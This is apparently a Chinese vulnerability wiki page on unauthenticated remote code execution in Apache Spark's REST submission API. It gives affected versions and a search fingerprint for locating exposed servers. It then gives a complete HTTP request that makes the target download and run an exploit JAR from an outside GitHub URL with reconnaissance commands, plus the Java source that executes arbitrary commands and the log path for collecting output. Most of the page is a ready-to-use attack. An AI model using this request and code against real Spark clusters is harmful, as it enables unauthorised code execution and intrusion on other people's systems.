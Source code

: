 # Apache Spark create 未授权访问漏洞

## 漏洞描述

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

## 漏洞影响

<a-checkbox checked>Apache Spark 3.1.2, 3.2.1, 3.3.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="APACHE-Spark-Jobs"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1648714918899-1bdd6f0c-f8fd-41e7-a89e-58efefb77413.png)

发送请求包

```php
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
# https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar
# Github代码为编译后的代码
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

![img](/assets/PeiQi-Wiki/img/1648715077646-aa01a6a0-fb6b-4bb7-9659-4b70ed5ad62a.png)

再访问获得的 submissionId Url查看结果

```php
/logPage/?driverId={submissionId}&logType=stdout
```

![img](/assets/PeiQi-Wiki/img/1648715186026-e56711ca-b56f-4a59-b380-efefcabf08f9.png)